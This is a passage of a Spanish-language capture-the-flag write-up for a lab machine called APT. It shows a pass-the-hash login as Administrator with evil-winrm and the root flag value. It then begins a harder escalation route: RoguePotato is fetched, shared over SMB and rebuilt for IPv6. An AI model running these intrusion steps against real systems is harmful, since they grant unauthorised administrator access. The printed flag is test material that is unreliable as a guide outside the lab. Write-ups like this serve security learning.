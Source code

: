 ```null
[*] Cleaning up... 
```

Me conecto a la máquina como el usuario Administrador

```null
❯ evil-winrm -i APT -u 'Administrator' -H 'c370bddf384a691d811ff3495e8a72e2'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Y puedo ver la segunda flag

```null
*Evil-WinRM* PS C:\Users\Administrator> type C:\Users\Administrator\Desktop\root.txt
ccfdc1e28f340cdbfe0e5049f913088d
```

Existe otra manera de rootear la máquina pero en vez de por SMB, por RPC

## Escalada (Forma difícil)

Por lo que he leido en otros writeups, esta era la manera intencionada de hacer la máquina

Necesito utilizar RoguePotato, pero los que controláis medianamente de Directorio Activo, os habréis fijado que el usuario henry.vinson_adm no tiene el privilegio SeImpersonatePrivilege, pero aquí lo importante es hacer una llamada por RPC. Un problema a tener en cuenta es que por defecto el SMB no está habilitado en IPv4, por lo que tendré que volver a compilar el binario con las actualizaciones pertinentes.

Para ello, voy a virtualizar una máquina Windows con el Visual Studio instalado, junto a las extensiones para trabajar en C++ y modificar el proyecto para opere por IPv6

Desde mi máquina Linux, descargo el proyecto de Github y lo comparto por Samba a la Windows

```null
git clone https://github.com/antonioCoco/RoguePotato
smbserver.py shared $(pwd) -smb2support -user rubbx -password rubbx
```

En la máquina Windows, creo una unidad lógica x: que se sincronice con mi recurso compartido

```null
PS C:\Users\Usuario> net use x: \\10.10.0.130\shared /user:rubbx rubbx
Se ha completado el comando correctamente.
```
